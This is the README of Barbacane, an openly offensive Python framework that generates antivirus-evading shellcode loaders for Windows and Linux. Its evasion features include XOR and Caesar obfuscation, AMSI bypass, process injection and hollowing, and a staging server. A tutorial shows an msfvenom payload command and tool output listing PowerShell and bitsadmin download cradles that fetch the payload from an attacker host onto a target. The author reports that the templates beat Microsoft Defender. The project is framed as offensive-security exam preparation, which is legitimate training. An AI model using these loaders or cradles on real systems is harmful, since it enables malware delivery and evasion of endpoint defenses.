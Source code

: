 
```
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
VBA/Powershell/C/++/# Shellcode loader framework +
```
![Python](https://img.shields.io/badge/python-3.11-blue.svg)
![Version](https://img.shields.io/badge/release-N/A-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

A barbican (barbacane [old french], bashoura [arabic]) is a fortified gateway situated over a gate or bridge, which was used for defensive purposes. An ominous doorway to a world of dreams and occult myths.

## [+] Overview

Barbacane is a **framework in Python3** designed to create different types of **shellcode loaders in Powershell, C++, C#, C and VBA from a command-line interface (CLI)** as you go. Most of the generated shellcode loaders are Windows-oriented, but one of them is dedicated to Linux machines.

In addition, Barbacane can run a web server on demand to act as a staging server. Every loader comes with **basic anti-virus bypasses** designed to reliably defeat low-grade anti-virus appliances (AV).

### Philosophy

When starting my OSEP journey, I realized that automating the shellcode loader generation process was mandatory to succeed during the exam. In my mind, the process of manually creating a new code from a second-hand template was far too random and caused mistakes that I didn't want to track during the exam. Barbacane came from this intuition. 

Knowing this background, keep in mind the **following key-facts** before using this framework:
- Barbacane has been organically designed following my researchs and OSEP lessons. Consequently, the **code suffers from a lack of design, flow control, error mangament and optimization**, as well as it could be more Pythonish. Eventually, you will find **some missing features**. Nonetheless, as far as I'm concerned, Barbacane works and provides some valued reliabilty during my journey through the OSEP labs. 
- Every template **contains basic AV bypasses effective against low to intermediate-level anti-virus**. Every template succeeded to bypass a mid-2023 Microsoft Defender. If you want to be stealthier, more research should be performed to improve the payloads. Have fun.
- Barbacane **doesn't compile payloads on demand**. When starting the project, I quickly realized that dealing with this issue would be to hard to overcome. Instead, I recommand to use Barbacane closely with a virtual machine (VM) on Windows and a shared folder. The setup of the VM is your responsability, but it should not take much effort to run properly a Windows with csc.exe and cl.exe installed.
### Features

As a framework, Barbacane offers the following generation capabilities:

- **Shellcode loader in C++** crafted as a PE (.exe) or as a shared library (.dll) for x64 architecture, including:
	- static obfuscation based on XOR encryption
	- behavior analysis bypass, including IAT obfuscation, and prime-number calculation
	- strings from the Edge binary are added to reduce the level of entropy
	
- **Shellcode runner in c crafted as an ELF file for x64 linux systems**  including:
	- static obfuscation based on a XOR encryption
	
- **Shellcode loader in C#** crafted in PE (.exe) or shared library (.dll), both for x64 architecture, including:
	- static obfuscation based on Caesar cypher encryption
	- behavior analysis bypass including sleep timers and non-emulated API detection
	- **on-demand process injection and hollowing capabilities**
	
- **Shellcode loader in Powershell** for x64 architecture, which includes two options of AMSI bypasses:
	- corruption of the context structure that is created by calling _AmsiInitialize_
	- manipulation of a result variable set by _AmsiInitialize_ (coming later)

- **Shellcode loader in VBA based on two different scenario:**
	- a classic shellcode loader fully made in VBA that includes two AV bypass techniques:
		- static obfuscation based on Caesar cypher encryption
		- behavior analysis bypass based on a sleep timer
	- a VBA runner based on WMI that executes a command on the targeted system, such as a powershell payload (why not the runner in Powershell we displayed earlier?). It includes static obfuscation based on masquerading the variables and Caesar cypher encrypting some keywords often flagged as malicious.

- On demand, a **Python3 web server may be initialized to be used as a staging server**. It includes preformatted living-off-the-land commands to download the craddle

## [+] Installation

### Setup:

From your client machine with Python3 up and running:

```bash
# after downloading the project and paste it in /opt (for instance)
cd /opt/barbacane
# Setting a virtualenv
sudo virtualenv barbacane-venv 
source barbacane-venv/bin/activate
# Installing required package
pip3 install colorama
```

## [+] Usage

>[!WARNING]
>If you want to generate a functional loader from Barbacane, **you must use a raw binary shellcode as payload**. No other format is recognized by the framework. You are warned.

First time you run Barbacane ? Fair enough. From the downloaded project, type the following command to learn how to use Barbacane:

`$ python3 barbacane.py --help`

Alternatively, you can follow this short tutorial demonstrating the generation of a simple C++ shellcode loader for Windows:

- **Step1:** generate a payload in raw binary:

`$ msfvenom --platform windows --arch x64  -p windows/x64/messagebox -f raw > /tmp/pld.bin`

- **Step2:** use Barbacane to create a shellcode loader source code

```bash
$ python3 barbacane.py -format C++ -host 192.168.56.1 -port 8080 -pld payload/pld.bin -name output --staging
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \ 
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
+ VBA/Powershell/C/++/# Shellcode loader framework +

+ -- [ Every grave robber gains +30 dodge ] -- +
[*] WARNING: you are using a test payload used for debugging purpose
[*] Creating a c++ Windows shellcode runner (IAT obfuscation, prime-number bypass, adding strings to reduce level of entropy)
[+] Custom c++ template for PE generated
[+] Payload found at payload/pld.bin
[+] Payload XOR encrypted
[+] Payload nested
[+] The template is available at output/output.cpp
[+] >>> Compile on Windows VM using x64VS cli: cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcoutput/output.cpp /link /OUT:output/output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
[+] Exec on target:
 >>> powershell -ep bypass -nop -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/output.exe', 'output.exe')
 >>> powershell -ep bypass -nop -c Invoke-WebRequest -Uri http://192.168.56.1:8080/output.exe -OutFile output.exe
 >>> bitsadmin /transfer pwn /download http://192.168.56.1:8080/output.exe output.exe
[*] HTTP server serving at: http:// 192.168.56.1 8080
```

- **Step3:** compile on a dedicated VM using the command submitted by Barbacane and a shared folder where the root folder is ``barbacane/``:

![Pasted image 20240329221651](https://github.com/hex-a-dec/barbacane/assets/152536937/b839e8ff-c753-447d-bd4d-2a1f209feca1)

- **Step4:** download the payload the way you like, execute it and enjoy the view of profit:

![Pasted image 20240330090300](https://github.com/hex-a-dec/barbacane/assets/152536937/d4a3558b-9bc3-49a3-a884-012c45a265da)

Other examples you might want to know:

- generate a shellcode loader as a DLL for a Windows x64:
`$ python3 barbacane.py -format C++ -name mypayload --dll`

- generate a shellcode injector in c# for Windows x64 and specify the process to tamper:
`$ python3 barbacane.py -format C# -name payload --inject -pid explorer -mode inject`

- generate a shellcode loader in Powershell for Windows x64 and run a staging server on port 8080
`$ python3 barbacane.py -format Powershell -name payload --staging -host 192.168.56.1 -port 8080`

>[!CAUTION]
>All templates used by the framework are available in the ``/templates`` folder. The generated payloads are availlable in the ``/output`` folder

## [+] Credits

A special thanks goes to:
- [vanmieghem.io - A blueprint for evading industry leading endpoint protection in 2022](https://vanmieghem.io/blueprint-for-evading-edr-in-2022/), still a masterclass in 2023. I learnt so much reading this blog article
- [Sektor7 - RED TEAM Operator: Malware Development Essentials Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials), a great but not-free resource to jump into the development of shellcode.
- [Offsec - OSEP course](https://www.offsec.com/courses/pen-300/), well Barbacane is all about this course, right ?
- I must admit ChatGPT3.5 extensively helped me to write some cryptographic functions in Python. Thank you CG ;)
